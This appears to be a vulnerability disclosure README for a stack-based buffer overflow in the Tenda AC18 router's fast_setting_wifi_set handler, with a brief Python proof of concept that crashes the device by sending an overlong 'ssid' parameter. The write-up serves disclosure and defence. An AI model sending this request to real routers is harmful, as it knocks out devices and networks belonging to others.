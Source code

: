 # Tenda Router AC18 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fast_setting_wifi_set`.

In function `fast_setting_wifi_set` it reads user provided parameter `ssid`  into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.

![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/192_1/vlun.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a **Deny of Service Attack** .
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
2023-02-04: Report to CVE;
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
